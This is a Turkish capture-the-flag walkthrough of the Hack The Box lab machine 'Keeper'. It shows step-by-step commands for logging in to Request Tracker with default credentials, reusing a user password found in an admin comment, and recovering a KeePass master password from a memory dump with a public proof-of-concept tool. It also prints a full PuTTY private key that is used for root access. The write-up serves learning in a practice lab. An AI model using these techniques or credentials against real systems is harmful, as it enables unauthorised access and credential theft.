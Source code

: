 # Keeper

## User Flag

!!! info "Target IP Address"

    10.10.11.227

Keşfe başlamak için ilk olarak aşağıdaki komut ile bir Nmap taraması gerçekleştirdim:

```bash
sudo nmap 10.10.11.227 -sS -sV -sC -oN nmap
```

```text title="Output" hl_lines="6 10"
Starting Nmap 7.94 ( https://nmap.org ) at 2024-02-01 03:21 +03
Nmap scan report for 10.10.11.227
Host is up (0.86s latency).
Not shown: 998 closed tcp ports (conn-refused)
PORT   STATE SERVICE VERSION
22/tcp open  ssh     OpenSSH 8.9p1 Ubuntu 3ubuntu0.3 (Ubuntu Linux; protocol 2.0)
| ssh-hostkey:
|   256 35:39:d4:39:40:4b:1f:61:86:dd:7c:37:bb:4b:98:9e (ECDSA)
|_  256 1a:e9:72:be:8b:b1:05:d5:ef:fe:dd:80:d8:ef:c0:66 (ED25519)
80/tcp open  http    nginx 1.18.0 (Ubuntu)
|_http-server-header: nginx/1.18.0 (Ubuntu)
|_http-title: Site doesn't have a title (text/html).
Service Info: OS: Linux; CPE: cpe:/o:linux:linux_kernel

Service detection performed. Please report any incorrect results at https://nmap.org/submit/ .
Nmap done: 1 IP address (1 host up) scanned in 986.28 seconds
```

Tarama sonuçlarında 80 numaralı port açık olarak gözükmektedir. Bu bilgiden hareketle, siteyi bir web tarayıcısında ziyaret etmeyi düşündüm. URL kısmına IP adresini girerek siteye gittiğimde karşıma çıkan sayfada aşağıdaki mesaj ile karşılaştım:

```text
To raise an IT support ticket, please visit tickets.keeper.htb/rt/
```

Ardından aşağıdaki adresleri `/etc/hosts` dosyasına ekledim:

```bash
echo -e "10.10.11.227 keeper.htb\n10.10.11.227 tickets.keeper.htb" | sudo tee -a /etc/hosts
```

Mesajda bahsedilen adrese gittiğimde bir Login sayfasıyla karşılaştım:

![](../assets/images/keeper/rt-login-page.png)

Kısa bir Google aramasından sonra Request Tracker [wiki](https://rt-wiki.bestpractical.com/wiki/ManualBasicAdministration#CREATE_USERS) adresinde, sisteme girişte kullanılan varsayılan kullanıcı adı (`root`) ve varsayılan parola (`password`) bilgisini öğrendim ve bu bilgileri kullanarak Login gerçekleştirebildim:

![](../assets/images/keeper/rt-at-a-glance.png)

Bu ekranda `Search` --> `Tickets` --> `Recently Viewed` sekmesinde `#300000: Issue with Keepass Client on Windows` isimli bir Ticket ile karşılaştım. Bu Ticket içeriğine baktığımda, Lise Nørgaard (`lnorgaard`) isimli bir kullanıcının KeePass yazılımı hakkındaki bir e-mail konuşmasına rastladım:

![](../assets/images/keeper/ticket-300000.png)

Aynı ekranda `Admin` --> `Users` sekmesinde Lise Nørgaard kullanıcısının bilgilerine baktığımda, yorumlar kısmında kullanıcının parola bilgisini öğrendim:

![](../assets/images/keeper/user-password.png)

Elde ettiğim kullanıcı adı (`lnorgaard`) ve parola (`Welcome2023!`) bilgisi ile bir SSH bağlantısı gerçekleştirdim:

```bash
ssh lnorgaard@10.10.11.227
```

Bağlantı kurulduktan sonra aşağıdaki komut ile kullanıcı bayrağını elde edebildim:

```bash
cat ~/user.txt
```

## Root Flag

SSH bağlantısı gerçekleştirdiğim kullanıcının ev dizininde `#!bash ls` komutunu çalıştırdığımda, bayrak dosyası dışında bir ZIP dosyası ile karşılaştım:

```bash
ls
```

```text title="Output"
RT30000.zip  user.txt
```

ZIP dosyasını arşivden çıkardığımda 2 adet dosya ile daha karşılaştım (bu dosyaları sonrasında Python HTTP sunucusu yardımıyla kendi sistemime indirdim):

```bash
unzip RT30000.zip && ls
```

```text title="Output"
KeePassDumpFull.dmp  RT30000.zip  passcodes.kdbx  user.txt
```

Bu dosyalardan `passcodes.kdbx` dosyasının tipini kontrol ettiğimde bu dosyanın, KeePass 2.x yazılımına ait bir veri tabanı dosyası olduğunu öğrendim:

```bash
file passcodes.kdbx
```

```text title="Output"
passcodes.kdbx: Keepass password database 2.x KDB
```

Kısa bir Google aramasından sonra, KeePass Dump dosyasından ana parolayı elde etmeyi sağlayan bir [PoC](https://github.com/vdohney/keepass-password-dumper) ile karşılaştım.

Bu kodu kullanabilmek için `#!bash dotnet` aracı da gerekiyordu, bu sebeple [bu](https://dotnet.microsoft.com/en-us/download/dotnet/thank-you/sdk-7.0.405-linux-x64-binaries) siteden yardım alarak ilk önce bu aracın kurulumunu gerçekleştirdim.

Ardından PoC kodunu repodan bilgisayarıma klonlayıp, klonlanan dizine geçiş yaptım (gerekli):

```bash
git clone https://github.com/vdohney/keepass-password-dumper && cd keepass-password-dumper
```

Aşağıdaki komut ile Dump dosyasından ana parolayı elde etmeyi denedim:

```bash
~/dotnet run ~/KeePassDumpFull.dmp
```

```text title="Output"
...SNIP...

Password candidates (character positions):
Unknown characters are displayed as "●"
1.: ●
2.: ø, Ï, ,, l, `, -, ', ], §, A, I, :, =, _, c, M,
3.: d,
4.: g,
5.: r,
6.: ø,
7.: d,
8.:  ,
9.: m,
10.:    e,
11.:    d,
12.:     ,
13.:    f,
14.:    l,
15.:    ø,
16.:    d,
17.:    e,
Combined: ●{ø, Ï, ,, l, `, -, ', ], §, A, I, :, =, _, c, M}dgrød med fløde
```

Çıktının en sonunda `Combined` olarak verilen karakterler (`●` + `süslü parantezler içindeki karakterlerden bir karakter` + `dgrød med fløde`) parola olmalıydı. Fakat en başta bilinmeyen bir karakter (`●`) ve süslü parantezler içindeki karakterlerden bir karakter tam olarak bilinmediği için parola bilgisi eksikti.

Daha öncesinde kullanıcı bilgilerine bakarken, kullanıcının Danimarkalı olduğunu öğrenmiştim:

![](../assets/images/keeper/danish-user.png)

Bu ipucundan faydalanarak bulunan karakterleri Google üzerinde arattığımda, Google bana `dgrød med fløde` --> `rødgrød med fløde` önerisinde bulundu.

Bunun ardından doğru parolayı bulmuş olabileceğimi düşünerek keşfe devam ettim.

Yine kısa bir Google aramasından sonra [https://app.keeweb.info](https://app.keeweb.info) sitesi ile karşılaştım. Bu siteye `passcodes.kdbx` dosyasını yükleyip parola olarak `rødgrød med fløde` bilgisini verdiğimde, veri tabanını başarılı bir şekilde deşifre edebildim:

```text title="Output"
PuTTY-User-Key-File-3: ssh-rsa
Encryption: none
Comment: rsa-key-20230519
Public-Lines: 6
AAAAB3NzaC1yc2EAAAADAQABAAABAQCnVqse/hMswGBRQsPsC/EwyxJvc8Wpul/D
8riCZV30ZbfEF09z0PNUn4DisesKB4x1KtqH0l8vPtRRiEzsBbn+mCpBLHBQ+81T
EHTc3ChyRYxk899PKSSqKDxUTZeFJ4FBAXqIxoJdpLHIMvh7ZyJNAy34lfcFC+LM
Cj/c6tQa2IaFfqcVJ+2bnR6UrUVRB4thmJca29JAq2p9BkdDGsiH8F8eanIBA1Tu
FVbUt2CenSUPDUAw7wIL56qC28w6q/qhm2LGOxXup6+LOjxGNNtA2zJ38P1FTfZQ
LxFVTWUKT8u8junnLk0kfnM4+bJ8g7MXLqbrtsgr5ywF6Ccxs0Et
Private-Lines: 14
AAABAQCB0dgBvETt8/UFNdG/X2hnXTPZKSzQxxkicDw6VR+1ye/t/dOS2yjbnr6j
oDni1wZdo7hTpJ5ZjdmzwxVCChNIc45cb3hXK3IYHe07psTuGgyYCSZWSGn8ZCih
kmyZTZOV9eq1D6P1uB6AXSKuwc03h97zOoyf6p+xgcYXwkp44/otK4ScF2hEputY
f7n24kvL0WlBQThsiLkKcz3/Cz7BdCkn+Lvf8iyA6VF0p14cFTM9Lsd7t/plLJzT
VkCew1DZuYnYOGQxHYW6WQ4V6rCwpsMSMLD450XJ4zfGLN8aw5KO1/TccbTgWivz
UXjcCAviPpmSXB19UG8JlTpgORyhAAAAgQD2kfhSA+/ASrc04ZIVagCge1Qq8iWs
OxG8eoCMW8DhhbvL6YKAfEvj3xeahXexlVwUOcDXO7Ti0QSV2sUw7E71cvl/ExGz
in6qyp3R4yAaV7PiMtLTgBkqs4AA3rcJZpJb01AZB8TBK91QIZGOswi3/uYrIZ1r
SsGN1FbK/meH9QAAAIEArbz8aWansqPtE+6Ye8Nq3G2R1PYhp5yXpxiE89L87NIV
09ygQ7Aec+C24TOykiwyPaOBlmMe+Nyaxss/gc7o9TnHNPFJ5iRyiXagT4E2WEEa
xHhv1PDdSrE8tB9V8ox1kxBrxAvYIZgceHRFrwPrF823PeNWLC2BNwEId0G76VkA
AACAVWJoksugJOovtA27Bamd7NRPvIa4dsMaQeXckVh19/TF8oZMDuJoiGyq6faD
AF9Z7Oehlo1Qt7oqGr8cVLbOT8aLqqbcax9nSKE67n7I5zrfoGynLzYkd3cETnGy
NNkjMjrocfmxfkvuJ7smEFMg7ZywW7CBWKGozgz67tKz9Is=
Private-MAC: b0a0fd2edf4f0e557200121aa673732c9e76750739db05adc3ab65ec34c55cb0
```

Bu çıktıyı `key.ppk` isimli bir dosyaya kaydettim ve dosyanın izinlerini güncelledim:

```bash
chmod 0644 ~/key.ppk
```

Ardından Linux için PuTTY aracını yükledim:

```bash
sudo apt update && sudo apt install putty-tools
```

Bunun ardından aşağıdaki komut yardımıyla dosya formatını PuTTY --> OpenSSH olarak değiştirdim:

```bash
puttygen ~/key.ppk -O private-openssh -o ~/key
```

Elde edilen dosyayı kullanarak `root` kullanıcısı için bir SSH bağlantısı gerçekleştirdim:

```bash
ssh root@10.10.11.227 -i ~/key
```

Bağlantı kurulduktan sonra aşağıdaki komut ile `root` bayrağını elde edebildim:

```bash
cat ~/root.txt
```
